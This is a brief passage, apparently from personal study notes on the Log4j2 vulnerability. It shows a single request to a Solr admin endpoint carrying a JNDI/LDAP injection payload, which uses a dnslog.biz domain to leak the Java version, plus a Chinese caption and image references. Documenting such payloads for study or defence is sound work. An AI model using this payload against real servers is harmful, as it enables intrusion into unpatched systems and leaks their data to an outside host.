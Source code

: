 ```
http://192.168.52.143:8983/solr/admin/cores?action=${ldap://${sys:java.version}.7be78bc4.dnslog.biz}
```

使用dnslog将内容带出

![image-20240420155045282](F:\笔记\WEB\Java\Log4j2.assets\image-20240420155045282.png)